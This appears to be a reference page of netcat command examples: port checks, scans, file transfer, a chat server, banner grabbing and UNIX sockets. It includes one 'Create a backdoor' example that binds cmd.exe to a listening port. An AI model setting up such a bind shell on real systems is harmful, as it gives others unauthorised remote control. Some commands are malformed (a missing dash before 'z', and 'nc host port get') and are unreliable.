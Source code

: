 **netcat**{: #netcat }
:   
    The netcat utility allows testing of a host's ports, similar to **ping**, but more versatile because **ping** only uses the portless ICMP protocol. 
    GNU and OpenBSD versions available

    Connect to host on port 80
    ```sh
    nc example.com 80
    ```
    Scan ports

    === "Single"

        ```sh
        nc -v -w 2 z 192.168.56.1 22
        ```

    === "Multiple"

        ```sh
        nc -v -w 2 z 192.168.56.1 22 80
        ```

    === "Range of ports"

        ```sh
        nc -v -w 2 z 192.168.56.1 22-25
        ```

    Transfer files between servers
    This example uses the `pv` utility to monitor progress.
    ```sh
    # Run `nc` in listening mode (`-l` option) on port 3000
    tar -zcf - debian-10.0.0-amd64-xfce-CD-1.iso | pv | nc -l -p 3000 -q 5

    # On the receiving client, to obtain the file:
    nc 192.168.1.4 3000 | pv | tar -zxf -
    ```
    Create a command-line chat server
    ```
    # Create chat server listening on port 5000
    nc -l -vv -p 5000

    # Launch a chat session on the other system
    nc 192.168.56.1 5000
    ```
    Find a service running on port
    Obtain port banners (`-n` disables DNS lookup)
    ```sh
    nc -v -n 192.168.56.110 80
    ```
    Create stream sockets
    Create and listen on a UNIX-domain stream socket
    ```sh
    nc -lU /var/tmp/mysocket &
    ss -lpn | grep "/var/tmp/"
    ```
    Create a backdoor
    Netcat needs to listen on a chosen port (here 3001): `-d` disables reading from stdin; `-e` specifies the command to run on the target system
    ```sh
    nc -L -p 3001 -d -e cmd.exe
    ```
    Connect to {port} at {host}
    ```sh
    nc host port
    ```
    Netcat command that retrieves a webpage
    ```sh
    nc host port get
    ```